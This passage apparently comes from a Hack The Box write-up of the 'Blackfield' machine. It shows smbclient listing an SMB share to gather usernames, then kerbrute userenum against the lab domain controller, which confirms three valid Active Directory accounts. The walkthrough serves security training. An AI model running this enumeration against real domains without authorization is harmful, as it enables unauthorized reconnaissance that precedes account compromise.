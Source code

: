 ```shell
cfx:  ~/Documents/htb/blackfield
→ smbclient //10.10.10.192/profiles\$ -c ls | awk '{print $1}' > users.txt

cfx:  ~/Documents/htb/blackfield
→ cat users.txt
.
..
AAlleni
ABarteski
ABekesz
ABenzies
ABiemiller
```

### Kerbrute - Validating Usernames

Now that we have lots of potential usernames let's use [**kerbrute**](https://github.com/ropnop/kerbrute/releases) which is a tool used to bruteforce and enumerate valid Active Directory accounts through Kerberos Pre-Authentication.

To find our valid domain usernames we'll use `userenum` command:

> To enumerate usernames, Kerbrute sends TGT requests with no pre-authentication. If the KDC responds with a PRINCIPAL UNKNOWN error, the username does not exist. However, if the KDC prompts for pre-authentication, we know the username exists and we move on. This does not cause any login failures so it will not lock out any accounts. This generates a Windows event ID 4768 if Kerberos logging is enabled.

```shell
cfx:  ~/Documents/htb/blackfield
→ ./kerbrute_linux_amd64 userenum --dc 10.10.10.192 -d BLACKFIELD.local users.txt

    __             __               __
   / /_____  _____/ /_  _______  __/ /____
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/

Version: v1.0.3 (9dad6e1) - 10/05/20 - Ronnie Flathers @ropnop

2020/10/05 15:28:26 >  Using KDC(s):
2020/10/05 15:28:26 >   10.10.10.192:88

2020/10/05 15:28:47 >  [+] VALID USERNAME:       audit2020@BLACKFIELD.local
2020/10/05 15:30:47 >  [+] VALID USERNAME:       support@BLACKFIELD.local
2020/10/05 15:30:52 >  [+] VALID USERNAME:       svc_backup@BLACKFIELD.local
2020/10/05 15:31:20 >  Done! Tested 315 usernames (3 valid) in 174.027 seconds
```

So we found three valid usernames:
- audit2020
- support
- svc_backup
